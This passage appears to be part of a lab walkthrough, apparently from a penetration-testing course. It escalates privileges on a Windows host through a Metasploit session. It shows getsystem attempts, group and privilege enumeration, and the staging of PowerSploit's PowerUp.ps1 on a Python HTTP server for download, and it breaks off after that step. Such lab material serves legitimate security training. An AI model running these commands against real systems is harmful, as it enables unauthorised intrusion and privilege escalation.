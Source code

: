 `getuid`:
```
Server username: WIN-I219UGQJ7H8\bob ←
```

**Step 6**.

`getsystem`:
```
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
```

**Step 7**.

`shell`, `net localgroup "administrators"`:
```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.
```

`exit`, `background`, `search win_privs`, `use post/windows/gather/win_privs`, `set SESSION 1`, `exploit`:
```
Current User
============

 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
 --------  ---------  -----------------------  -----------  -------------  ---
 False     False      False                    True         1              WIN-I219UGQJ7H8\bob ←

Windows Privileges
==================

 Name
 ----
 SeChangeNotifyPrivilege
 SeIncreaseWorkingSetPrivilege
```

**Step 8A**.

`cd /root/Desktop/tools/PowerSploit/Privesc`, `ls -l`:
```
total 632
-rwxrwxrwx 1 root root  26768 Aug 18  2020 Get-System.ps1
-rwxrwxrwx 1 root root 600580 Aug 18  2020 PowerUp.ps1 ←
-rwxrwxrwx 1 root root   1659 Aug 18  2020 Privesc.psd1
-rwxrwxrwx 1 root root     67 Aug 18  2020 Privesc.psm1
-rwxrwxrwx 1 root root   4569 Aug 18  2020 README.md
```
`python -m SimpleHTTPServer 80`.

